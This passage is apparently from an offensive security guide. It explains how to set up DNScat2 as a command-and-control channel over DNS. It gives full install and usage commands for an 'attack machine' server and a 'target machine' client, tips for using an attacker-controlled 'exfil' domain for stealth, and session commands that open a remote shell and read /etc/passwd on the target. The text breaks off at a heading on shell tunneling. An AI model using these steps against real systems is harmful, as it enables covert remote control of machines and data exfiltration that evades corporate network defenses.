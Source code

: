 DNScat2 establishes a command and control channel over DNS, allowing for bidirectional communication and data exfiltration through DNS queries and responses. This technique is effective because DNS traffic is rarely blocked in corporate environments.

### Installation

```bash
# On your attack machine (server component)
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
gem install bundler
bundle install

# On the target machine (client component)
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client
make
```

### Basic Usage

1. **Start the DNScat2 server on your attack machine**:

```bash
# Basic server setup
ruby ./dnscat2.rb --dns "domain=example.com" --no-cache

# For better stealth, use a domain you control
ruby ./dnscat2.rb --dns "domain=exfil.yourdomain.com" --no-cache
```

2. **Connect from the target machine**:

```bash
# Basic client connection
./dnscat2 example.com

# For encrypted communication
./dnscat2 --secret="your_pre_shared_secret" example.com
```

3. **Interact with the session on the server**:

```bash
# In the dnscat2 server interface:
dnscat2> session -i 1
dnscat2> shell
dnscat2> exec "cat /etc/passwd"
```

### Tunneling Techniques

DNScat2 provides various tunneling capabilities:

#### 1. Command Shell Tunneling

